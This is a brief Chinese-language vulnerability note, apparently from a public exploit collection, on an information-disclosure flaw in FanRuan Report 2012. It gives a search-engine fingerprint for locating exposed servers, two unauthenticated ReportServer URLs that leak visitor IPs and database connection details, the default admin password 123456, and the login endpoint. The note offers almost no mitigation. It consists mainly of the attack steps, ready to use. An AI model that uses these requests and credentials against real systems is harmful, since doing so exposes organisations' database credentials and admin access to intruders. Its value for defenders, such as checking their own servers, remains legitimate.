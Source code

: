 # 帆软报表 2012 信息泄露漏洞

# 帆软报表 2012 信息泄露漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取部分敏感信息

## 漏洞影响

```
帆软报表 2012
```

## 网络测绘

```
body="down.download?FM_SYS_ID"
```

## 漏洞复现

获取登录报表系统的IP

```plain
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```



![image-20220209113026424](/images/202202091130468.png)



数据库信息泄露

```plain
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```



![image-20220209113041021](/images/202202091130098.png)

后台默认口令 admin/123456

```plain
/ReportServer?op=fr_auth&cmd=ah_login&_=new%20Date().getTime()
```

